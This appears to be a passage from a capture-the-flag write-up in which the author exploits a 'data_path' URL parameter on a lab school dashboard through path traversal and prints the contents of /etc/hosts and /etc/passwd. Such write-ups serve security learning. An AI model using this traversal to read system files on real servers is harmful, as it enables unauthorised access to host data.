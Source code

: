     Exploring the various sections, tabs, and buttons in the new dashboard, the one that stood out the most was `Retrieve User Data`. Clicking on `Retrieve User Data` showed that the URL changed to `https://potatos.potato-school.com/new_dashboard/index.php?data_path=%2Feunchae%2Feunchae_data`. In the URL, the path as to which the data is obtained from was stated, which brought to my mind the attack known as [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal).

20) Attempting [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal), I decided to look at various files:

    `/etc/hosts`
    ```
    127.0.0.1 localhost
    127.0.1.1 potatos.potato-school.com www.potato-school.com
    # The following lines are desirable for IPv6 capable hosts
    ::1 localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    ```
    
    `/etc/passwd`
    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    _apt:x:42:65534::/nonexistent:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
    mysql:x:100:108:MySQL Server,,,:/var/lib/mysql:/bin/false
    messagebus:x:101:109::/nonexistent:/usr/sbin/nologin
    sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
    tss:x:103:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    usbmux:x:104:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    dnsmasq:x:105:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    avahi:x:106:113:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
    speech-dispatcher:x:107:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
    fwupd-refresh:x:108:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
    saned:x:109:118::/var/lib/saned:/usr/sbin/nologin
    geoclue:x:110:119::/var/lib/geoclue:/usr/sbin/nologin
    polkitd:x:997:997:polkit:/nonexistent:/usr/sbin/nologin
    rtkit:x:111:120:RealtimeKit,,,:/proc:/usr/sbin/nologin
    colord:x:112:121:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
    gnome-initial-setup:x:113:65534::/run/gnome-initial-setup/:/bin/false
    Debian-gdm:x:114:122:Gnome Display Manager:/var/lib/gdm3:/bin/false
    bind:x:115:123::/var/cache/bind:/usr/sbin/nologin
    postfix:x:116:124::/var/spool/postfix:/usr/sbin/nologin
    dovecot:x:117:126:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
    dovenull:x:118:127:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
    malcolm:x:1004:1004::/home/malcolm:/bin/restrictedbash
    jaeger:x:1005:1005::/home/jaeger:/bin/restrictedbash
    weile:x:1006:1006::/home/weile:/bin/restrictedbash